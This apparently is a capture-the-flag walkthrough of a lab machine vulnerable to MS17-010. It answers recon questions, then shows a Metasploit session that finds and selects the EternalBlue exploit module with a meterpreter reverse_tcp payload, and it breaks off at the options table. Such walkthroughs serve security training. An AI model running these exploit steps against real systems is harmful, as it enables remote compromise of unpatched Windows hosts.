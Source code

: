 1.Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)
>>No answer needed

2.How many ports are open with a port number under 1000?
>>3

3.What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)
>>ms17-010

----

# Task 2 Gain Access
----

>>Exploit the machine and gain a foothold.

```bash [metasploit]
root@ip-10-10-179-6:~# msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2048 exploits - 1105 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to check out the result of hosts and services

msf5 > search CVE-2017-0144

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   1  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   2  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index, for example use 2 or use exploit/windows/smb/smb_doublepulsar_rce

msf5 > use 1
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
```